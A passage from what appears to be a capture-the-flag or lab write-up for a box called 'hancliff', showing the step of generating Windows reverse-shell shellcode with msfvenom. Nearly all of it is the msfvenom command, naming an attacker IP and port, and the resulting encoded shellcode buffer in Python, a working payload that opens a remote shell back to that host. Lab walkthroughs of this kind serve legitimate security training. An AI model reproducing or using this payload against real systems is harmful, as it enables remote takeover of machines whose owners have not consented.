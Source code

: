 [![19_move_sp](/img/hancliff/19_move_sp.png)](/img/hancliff/19_move_sp.png)

Now we have to generate the shellcode for our reverse shell using msfvenom, specifying our ip and the port we want to recieve the reverse shell on.

```
$ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.74 LPORT=7575 -b "\x00" EXITFUNC=thread -f python
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 351 (iteration=0)
x86/shikata_ga_nai chosen with final size 351
Payload size: 351 bytes
Final size of python file: 1712 bytes
buf =  b""
buf += b"\xbe\xb8\x2f\xbb\x90\xd9\xec\xd9\x74\x24\xf4\x5b\x33"
buf += b"\xc9\xb1\x52\x31\x73\x12\x83\xeb\xfc\x03\xcb\x21\x59"
buf += b"\x65\xd7\xd6\x1f\x86\x27\x27\x40\x0e\xc2\x16\x40\x74"
buf += b"\x87\x09\x70\xfe\xc5\xa5\xfb\x52\xfd\x3e\x89\x7a\xf2"
buf += b"\xf7\x24\x5d\x3d\x07\x14\x9d\x5c\x8b\x67\xf2\xbe\xb2"
buf += b"\xa7\x07\xbf\xf3\xda\xea\xed\xac\x91\x59\x01\xd8\xec"
buf += b"\x61\xaa\x92\xe1\xe1\x4f\x62\x03\xc3\xde\xf8\x5a\xc3"
buf += b"\xe1\x2d\xd7\x4a\xf9\x32\xd2\x05\x72\x80\xa8\x97\x52"
buf += b"\xd8\x51\x3b\x9b\xd4\xa3\x45\xdc\xd3\x5b\x30\x14\x20"
buf += b"\xe1\x43\xe3\x5a\x3d\xc1\xf7\xfd\xb6\x71\xd3\xfc\x1b"
buf += b"\xe7\x90\xf3\xd0\x63\xfe\x17\xe6\xa0\x75\x23\x63\x47"
buf += b"\x59\xa5\x37\x6c\x7d\xed\xec\x0d\x24\x4b\x42\x31\x36"
buf += b"\x34\x3b\x97\x3d\xd9\x28\xaa\x1c\xb6\x9d\x87\x9e\x46"
buf += b"\x8a\x90\xed\x74\x15\x0b\x79\x35\xde\x95\x7e\x3a\xf5"
buf += b"\x62\x10\xc5\xf6\x92\x39\x02\xa2\xc2\x51\xa3\xcb\x88"
buf += b"\xa1\x4c\x1e\x1e\xf1\xe2\xf1\xdf\xa1\x42\xa2\xb7\xab"
buf += b"\x4c\x9d\xa8\xd4\x86\xb6\x43\x2f\x41\xb3\x99\x21\x81"
buf += b"\xab\x9f\x3d\xbc\xbc\x29\xdb\xd4\xd2\x7f\x74\x41\x4a"
buf += b"\xda\x0e\xf0\x93\xf0\x6b\x32\x1f\xf7\x8c\xfd\xe8\x72"
buf += b"\x9e\x6a\x19\xc9\xfc\x3d\x26\xe7\x68\xa1\xb5\x6c\x68"
buf += b"\xac\xa5\x3a\x3f\xf9\x18\x33\xd5\x17\x02\xed\xcb\xe5"
buf += b"\xd2\xd6\x4f\x32\x27\xd8\x4e\xb7\x13\xfe\x40\x01\x9b"
buf += b"\xba\x34\xdd\xca\x14\xe2\x9b\xa4\xd6\x5c\x72\x1a\xb1"
buf += b"\x08\x03\x50\x02\x4e\x0c\xbd\xf4\xae\xbd\x68\x41\xd1"
buf += b"\x72\xfd\x45\xaa\x6e\x9d\xaa\x61\x2b\xbd\x48\xa3\x46"
```